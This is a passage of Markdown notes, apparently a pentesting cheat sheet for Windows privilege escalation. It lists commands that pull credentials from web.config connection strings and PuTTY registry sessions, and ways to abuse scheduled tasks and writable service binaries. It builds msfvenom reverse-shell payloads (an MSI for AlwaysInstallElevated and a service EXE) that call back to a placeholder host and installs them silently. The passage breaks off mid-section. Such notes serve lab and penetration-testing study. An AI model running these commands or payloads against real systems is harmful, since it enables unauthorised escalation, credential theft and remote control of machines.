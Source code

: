 ```Powershell
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

##### Credentials from PuTTY
```Powershell
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```
<small>SimonTatham is not a user, it is the creator of PuTTY</small>

### Schedule Tasks
**List a task by name (vulntask)**
```Powershell
schtasks /query /tn vulntask /fo list /v
```
![[Screenshot_2024-07-21_11-34-58.png]]
Check permissions on the task file and modify it if possible
**Run the task**
```Powershell
schtasks /run /tn vulntask
```

### AlwaysInstallElevated
**Check the regs**
```Powershell
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```
Both need to be set to exploit
**Create the malware**
```shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=[host] LPORT=[port] -f msi -o malicious.msi
```
**Run the malware**
```Powershell
msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```

### Abusing Service Misconfigurations
##### Windows services
**Check service configuration**
```Powershell
sc qc apphostsvc
```

**Registry location**
```text
HKLM\SYSTEM\CurrentControlSet\Services\
```
##### Insecure permissions on Service Executable
_**Example**_
**Check Windows Scheduler service**
```Powershell
sc qc WindowsScheduler
```
![[Screenshot_2024-07-21_12-11-56.png]]
**Check permission on binary**
```Powershell
icacls C:\PROGRA~2\SYSTEM~1\WService.exe
```
![[Screenshot_2024-07-21_12-13-06.png]]
If you can modify the binary, replace it by a reverse shell
```shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=[host] LPORT=[port] -f exe-service -o WService.exe
```
**Give permission on the reverse shell**